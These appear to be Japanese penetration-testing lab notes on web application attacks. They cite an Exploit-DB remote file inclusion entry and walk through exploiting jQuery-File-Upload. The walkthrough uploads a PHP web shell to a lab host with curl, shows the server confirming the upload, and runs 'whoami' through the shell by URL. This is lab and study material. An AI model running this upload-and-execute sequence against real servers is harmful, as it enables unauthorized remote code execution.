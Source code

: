   ![](img/webapplication/image-20230218121911772.png)

* 以下 Simple Text-File Login Scriptの脆弱性あり
  https://www.exploit-db.com/exploits/7444

* 後はexploitに従ってRFIの脆弱性を利用するのみ。



### Jquery-file-upload



![image-20230218163444278](img/webapplication/image-20230218163444278.png)

```
searchsploit -m 45584.txt
```

```
curl -F "files=@shell.php" https://10.11.1.123/books/apps/jquery-file-upload/server/php/index.php
```

```
curl -k -F "files=@shell.php" https://10.11.1.123/books/apps/jquery-file-upload/server/php/index.php                     
{"files":[{"name":"shell.php","size":41,"type":"application\/octet-stream","url":"https:\/\/10.11.1.123\/books\/apps\/jquery-file-upload\/server\/php\/files\/shell.php","deleteUrl":"https:\/\/10.11.1.123\/books\/apps\/jquery-file-upload\/server\/php\/index.php?file=shell.php","deleteType":"DELETE"}]}
```

https://10.11.1.123/books/apps/jquery-file-upload/server/php/files/shell.php?cmd=whoami

![image-20230218165505798](img/webapplication/image-20230218165505798.png)
